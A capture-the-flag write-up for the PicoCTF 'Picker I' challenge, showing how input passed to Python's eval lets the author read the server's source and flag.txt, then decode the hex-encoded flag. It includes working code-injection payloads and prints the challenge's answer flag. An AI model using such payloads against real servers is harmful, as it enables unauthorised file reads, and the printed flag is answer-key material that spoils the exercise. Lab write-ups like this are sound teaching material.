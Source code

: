 ```yaml
---
title: "PicoCTF: Picker I"
summary: "Using the eval function? Not good."
date: 2024-09-08
tags: ["picoctf"]
categories: ["write-up", "reverse_engineering"]
draft: false
---
```

# Investigating the Server
When we connect, we are prompted to input `getRandomNumber`. That works, but what happens if we provide an invalid input?
```
Try entering "getRandomNumber" without the double quotes...
==> getRandomNumber
4

Try entering "getRandomNumber" without the double quotes...
==> 4
'int' object is not callable


```

Providing invalid input shows what looks like a Python error message. This suggests that user input might not be sanitized properly. Let's test if we can provide Python input directly:

```
Try entering "getRandomNumber" without the double quotes...
==> getRandomNumber(123123)
getRandomNumber() takes 0 positional arguments but 1 was given

```

It turns out we can execute Python code! This means that we can now explore the contents of the Python script running on the server.

So, let's try printing the contents of the file with this one liner:
```python3
print(open(__file__).read())
```

And, that outputs the contents of the entire Python script running on the server!

# Investigating the Python File

Parsing through the output, we see this function:
```python3
def win():
  # This line will not work locally unless you create your own 'flag.txt' in
  #   the same directory as this script
  flag = open('flag.txt', 'r').read()
  #flag = flag[:-1]
  flag = flag.strip()
  str_flag = ''
  for c in flag:
    str_flag += str(hex(ord(c))) + ' '
  print(str_flag)

```

Now, we know that `flag.txt` is being read from the Python script. So, we have two choices:
1. Open `flag.txt` using arbitrary Python code
2. Reverse the encryption provided in the `win()` function

## Opening flag.txt Directly
Remember how we read the contents of the servers Python script? Because we know where `flag.txt` is... we can just open the file path directly.

```python3
print(open("flag.txt").read())
```

This outputs the flag: `picoCTF{4_d14m0nd_1n_7h3_r0ugh_ce4b5d5b}`

## Reversing the Encryption

Opening the file directly is too easy! Let's have some fun.

After executing `win()` on the server, we get this returned to us:
```
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x63 0x65 0x34 0x62 0x35 0x64 0x35 0x62 0x7d
```

Remember that `win()` function we discovered in the Python file? It converted each character of the flag into the hex representation of the character's unicode value (`ord(c)`):

```python3
...
for c in flag:
    str_flag += str(hex(ord(c))) + ' '
```

We simply just need to reverse the operations provided in the above code snippet.

```python3
# list comprehensions are super, super nice to know.
# https://www.programiz.com/python-programming/list-comprehension

# hex string from win() output
starting_flag = "0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x63 0x65 0x34 0x62 0x35 0x64 0x35 0x62 0x7d"

# split the string into individual hex codes
split_flag = starting_flag.split(" ")

# convert each hex code back its original character
transformed_flag = "".join(chr(int(word, 16)) for word in split_flag)

print(transformed_flag) # picoCTF{4_d14m0nd_1n_7h3_r0ugh_ce4b5d5b}
```
